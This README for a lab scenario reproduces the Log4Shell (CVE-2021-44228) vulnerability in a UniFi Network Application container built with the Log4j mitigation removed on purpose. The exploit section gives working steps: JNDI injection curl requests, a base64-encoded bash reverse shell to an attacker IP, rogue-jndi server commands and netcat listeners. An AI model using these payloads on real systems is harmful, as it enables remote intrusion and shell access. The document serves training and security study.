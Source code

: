 # Log4j

The folder `scenarios/log4j` holds the files related to the Log4j vulnerable scenario.

To understand what the Log4j vulnerability involves, the following resources where explored:

- **Cloudflare**
  - https://blog.cloudflare.com/exploitation-of-cve-2021-44228-before-public-disclosure-and-evolution-of-waf-evasion-patterns/
  - https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/
  - https://blog.cloudflare.com/actual-cve-2021-44228-payloads-captured-in-the-wild/
- **LunaSec**
  - https://www.lunasec.io/docs/blog/log4j-zero-day/
- **LiveOverflow**
  - https://www.youtube.com/watch?v=kvREvOvSWt4
- **John Hammond:**
  - https://www.youtube.com/watch?v=7qoPDq41xhQ
- **TryHackMe**
  - https://tryhackme.com/room/solar#
  - https://m3n0sd0n4ld.github.io/thm/Lumberjack-Turtle/
  - https://www.youtube.com/watch?v=lJeAgQQaDEw (Shows how to update shell to Meterpreter)
- **SnykLearn**
  - https://learn.snyk.io/lessons/log4shell/java/
- **Reddit (Large Resource)**
	- https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/

## GitHub-Related References

- **GitHub**
  - Log4j Obfuscating Strings: https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words
  - Log4j POC: 
  - https://github.com/cyberxml/log4j-poc
  - https://github.com/kozmer/log4j-shell-poc
  - https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  - Log4j Vulnerable App: https://github.com/christophetd/log4shell-vulnerable-app
  - YARA rules (DETECTION): https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b
  - Unifi: https://github.com/puzzlepeaches/Log4jUnifi
  - MarshalSec (Malicious LDAP): https://github.com/mbechler/marshalsec

This scenario is based in the Tier 2 HackTheBox **Unified** challenge and in the [SprocketSecurity blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi).

To reproduce a vulnerable version of Unifi Network Application the Docker container used was adapted from [goofball/unifi](https://github.com/goofball222/unifi). The version used (which can be also customized) is `6.4.54`. 

Typically, most of the Docker images present in this source were patched against Log4j, for instance, through the `JVM_EXTRA_OPTS=-Dlog4j2.formatMsgNoLookups=true` environment variable present in the respective Dockerfile. This disables variable lookups while in the Log4j logging tool that is vulnerable, meaning the final attack is unsuccessful.

After finding this was an issue to our vulnerable scenario, this option was removed from the Dockerfile. It's also important to notice that this Dockerfile is also built with a MongoDB database that supports the UniFi Network Application and where users are saved, according to [SprocketSecurity blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi).

> Deployment of the scenario was automated using Ansible. This may suffer changes in the future.

## Other Important Aspects During Setup

Initially, when acessing the UniFi Application Network web interface, the HTTPS connection was not secure because the presented certificate in the TLS connection wasn't signed by a trusted CA. To overcome this issue, we created a CA, as in the `ca/` folder. 

To achieve this, the commands in `ca/cmds.sh` were issued:

```bash
# Generate CA keys (private and public keys)
openssl req -x509 -newkey rsa:4096 -sha256 -days 3650 -keyout ca.key -out ca.crt

# Generating Certificate Signing Request (notice the subjectAltName which is mandatory, at least in Firefox!)
openssl req -newkey rsa:2048 -sha256 -keyout server.key -out server.csr -subj "/CN=example-domain.ui.com/O=UniFi/C=US" -passout pass:pass -addext "subjectAltName = DNS:example-domain.ui.com"

# Generate Server Public-key Certificate
openssl ca -config openssl.cnf -policy policy_anything -md sha256 -days 3650 -in server.csr -out server.crt -batch -cert ca.crt -keyfile ca.key

# Remove Password from server's private key
openssl rsa -in server.key -out server_nopass.key
```

> Notice also the need of the `openssl.cnf`, `serial`, `demoCA/`, and `index.txt` files/folders.

Afterwards, the private key of the issued certificate without password protection (`server_nopass.key`) was coppied into the `unifi-certs/` folder (this file was named **privkey.pem**), which is were our Docker bind mount is located. This is were UniFi fetches its SSL certificates.

*We've forced UniFi to always fetch the SSL certificates on every run, as this wasn't happening on every run, by default. This changes were enforced in the `entrypoint-functions.sh` file*. 

Then, regarding the **fullchain.pem**, we simply used:

```bash
cat server.crt ca.crt > fullchain.pem
```

Notice, there is a need to only include certificate information inside this file. No extra information should be present. The final format should be something like:

```
-----BEGIN (CA) CERTIFICATE-----
#######################################
-----END (CA) CERTIFICATE-----
-----BEGIN (SERVER) CERTIFICATE-----
#######################################
-----END (SERVER) CERTIFICATE-----
```

Then, there was the need of including our CA's public-key certificate by default on the attacker's kali machine, so that when they visited the UniFi Network Application web interface, the page would appear as safe. This was accomplished using the `policies.json` file in the `setup/` folder, where all the setup files (using Jinja2 templates) are present. The CA was defined as trusted also system-wide. The `entrypoint.sh` is the one that is triggered at the end and uses all the others.

Furthermore, a Selenium script, `setup/setup.py` was developed, being its main purpose complete the setup Wizard that appears on every start-up of the UniFi web interface. It creates an administrator user as specified in the credentials of the `all.yml` Ansible file. The `setup/requirements.txt` file holds the respective dependencies for the Selenium script to run.

# Exploit

Initially, I tried running exploits related to [TryHackMe Solr](https://tryhackme.com/room/solar#) but due to the Java version used by UniFi, it didn't work. It used [marshelsec](https://github.com/mbechler/marshalsec), a malicious LDAP server that redirected the LDAP request to a simple HTTP server that holded a malicious Java payload.

Therefore, the solution presented in [SprocketSecurity](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) was taken into consideration.

First, we test if the Log4j vulnerability indeed exists. We can also visit the UniFi Network Applicaiton at `https://example-domain.ui.com:8443`.

In the attacker's machine we run `nc -lnvp 9999` and in another terminal we can run:

```bash
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.135.0.2:9999/whatever}","strict":true}'
```

> 172.135.0.2 is the attacker machine's IP address. Notice the "remember" parameter as the one vulnerable to the Log4j attack.

If we receive a connection in `nc` we know the application is vulnerable to Log4j, which indeed is.

Then, by doing: 

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

We are using [rogue-jndi](https://github.com/veracode-research/rogue-jndi), a malicious LDAP application that also creates an HTTP server that will inject the payload.

We then generate our payload which is:

```bash
echo 'bash -c bash -i >&/dev/tcp/172.135.0.2/4444 0>&1' | base64
```

We setup our netcat listener using `nc -lnvp 4444` and then we run:

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTcyLjEzNS4wLjIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "172.135.0.2"
```

By running:

```bash
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.135.0.2:1389/o=tomcat}","strict":true}'
```

In our netcat listener we then obtain a Reverse Shell with access to the victim machine.

> ***The SprocketSecurity post dives deeper on lateral movement which can also be interesting.***

> This [GitHub repository](https://github.com/puzzlepeaches/Log4jUnifi) specifies the same attack on an automated way using a python script.

> There is also the possibility of upgrade to a better shell.